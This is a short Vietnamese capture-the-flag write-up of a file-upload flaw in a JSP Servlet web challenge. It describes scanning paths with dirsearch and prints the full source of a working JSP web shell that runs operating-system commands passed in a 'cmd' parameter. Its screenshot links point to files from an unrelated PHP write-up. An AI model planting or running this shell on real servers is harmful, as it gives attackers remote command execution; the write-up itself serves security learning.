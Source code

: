 ```yaml
---
layout: post
title:  "[HadesCTF] JSP Servlet Upload File"
description: Write-up Web Exploitation HadesCTF
tags: writeup
---
```

# Web Vulnerability: File upload on JSP Servlet
## Overview
Đề bài:

![image](https://github.com/nguyenngocquang700/nguyenngocquang700.github.io/blob/master/_img/2021-02-22-%5BdarkCON-CTF%5D-WTF-PHP/2021-02-22-%5BdarkCON-CTF%5D-WTF-PHP-1.png?raw=true)  

Web cho phép ta upload file. Mình đã thử upload bất kì với file extensions cũng đều thành công.  
![image](https://github.com/nguyenngocquang700/nguyenngocquang700.github.io/blob/master/_img/2021-02-22-%5BdarkCON-CTF%5D-WTF-PHP/2021-02-22-%5BdarkCON-CTF%5D-WTF-PHP-2.png?raw=true)  
Nhưng kì lạ ở chỗ là đến đoạn này, file được upload lên nhưng mình không biết view file như thế nào, mình thử dùng `dirsearch` để scan thử xem còn path nào mà mình có thể khai thác nữa không.  

![image](https://github.com/nguyenngocquang700/nguyenngocquang700.github.io/blob/master/_img/2021-02-22-%5BdarkCON-CTF%5D-WTF-PHP/2021-02-22-%5BdarkCON-CTF%5D-WTF-PHP-3.png?raw=true)  

Như trong ảnh trên, tool đã scan được khá nhiều path có ích. Nhưng path khiến mình chú ý đến nhất là `/etc/passwd`. Lúc này mình liền nhanh tay vào trang thử nhưng liền bị refuse.  

![image](https://github.com/nguyenngocquang700/nguyenngocquang700.github.io/blob/master/_img/2021-02-22-%5BdarkCON-CTF%5D-WTF-PHP/2021-02-22-%5BdarkCON-CTF%5D-WTF-PHP-3.png?raw=true)  

Trong cái rủi có cái xui, tuy là vào trang kết quả trả về 404 nhưng ở đây mình phát hiện được rằng bài được code bằng Java và sử dụng JSP Servlet. Tới đây, mình đã thử upload một con web shell execute code và đương nhiên thành công.
Tiếp đó mình thử mở đi đến con shell vừa up theo đường dẫn `/webapp/uploads/filename`. Nói sơ qua về code của shell là tạo form cho phép nhập và thực thi command linux.  
```
<%@ page import="java.util.*,java.io.*"%>
<%
%>
<HTML><BODY>
Commands with JSP
<FORM METHOD="GET" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
<%
if (request.getParameter("cmd") != null) {
    out.println("Command: " + request.getParameter("cmd") + "<BR>");
    Process p;
    if ( System.getProperty("os.name").toLowerCase().indexOf("windows") != -1){
        p = Runtime.getRuntime().exec("cmd.exe /C " + request.getParameter("cmd"));
    }
    else{
        p = Runtime.getRuntime().exec(request.getParameter("cmd"));
    }
    OutputStream os = p.getOutputStream();
    InputStream in = p.getInputStream();
    DataInputStream dis = new DataInputStream(in);
    String disr = dis.readLine();
    while ( disr != null ) {
    out.println(disr);
    disr = dis.readLine();
    }
}
%>
</pre>
</BODY></HTML>
```   
Và kết quả đúng như mong đợi...  
![image](https://github.com/nguyenngocquang700/nguyenngocquang700.github.io/blob/master/_img/2021-02-22-%5BdarkCON-CTF%5D-WTF-PHP/2021-02-22-%5BdarkCON-CTF%5D-WTF-PHP-1.png?raw=true)  
Xin lỗi người đang đọc vì đã viết khá sơ xài vì vừa bị xoá file markdown không hiểu vì sao, chắc do định mệnh :))  
Have a good day!!! 

